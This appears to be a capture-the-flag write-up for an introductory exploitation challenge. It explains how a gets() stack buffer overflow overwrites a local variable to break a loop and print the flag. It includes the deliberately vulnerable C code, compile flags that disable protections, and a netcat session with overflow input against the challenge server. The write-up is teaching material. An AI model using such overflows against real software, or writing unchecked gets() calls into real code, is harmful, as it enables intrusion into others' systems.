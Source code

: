 Notice that the program will read the flag from a file if we somehow manage to break from the `while(1)` loop.

We also notice that if `x!=0`, the code will the "infinite" loop:

```C
int main() {
    while(1) {
        int x = 0;
        char name[32]="";
        printf("What's your name? ");

        // ...
        
        gets(name);    

        if(x) {
            break; // EXIT the loop
        } 

        // ...
    }

    // read flag from file
    // ...
    
    return 0;
}
```

But how can we set x to something different from 0 **in a compiled program**?

When we compile this using `gcc main.c -o main -std=c99 -fno-stack-protector -z execstack -no-pie`, we actually get a hint:

```bash
main.c: In function ‘main’:
main.c:13:9: warning: ‘gets’ is deprecated [-Wdeprecated-declarations]
   13 |         gets(name);
      |         ^~~~
In file included from main.c:4:
/usr/include/stdio.h:667:14: note: declared here
  667 | extern char *gets (char *__s) __wur __attribute_deprecated__;
      |              ^~~~
/usr/bin/ld: /tmp/ccs4hMd1.o: in function `main':
main.c:(.text+0x5e): warning: the `gets' function is dangerous and should not be used.
```

So the `gets()` function is considered dangerous. What does that mean?

If we search the internet, we find out that `gets` is unsafe since it doesn't check the input length when saving it to a buffer. In other words, it can copy, say, a 100 character long string in a 32 bytes array (100 and 32 are arbitrary number, anything similar proves the point). This is also known as a **Buffer Overflow**, since the remaining `100-32=68 bytes` override other variables in our program's memory, including `x`.

So, if we provide a string long enough to override x (but short enough to not override other important variables that will crash the program), we'll successfully retrieve the flag:

```bash
vianuhack@computer:~$ nc 164.92.224.165 1337
What's your name? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
What's your name? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
What's your name? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Congrats! You bypassed it!
Here's your flag: VianuCTF{PWN3D_TH1S_INTRO_B0F!}

vianuhack@computer:~$ 
```

This is why it's always important to address out-of-bounds array issues (signal 11) when coding in C/C++. While `gets()` is deprecated, there are many other places where issues like this can arise. 
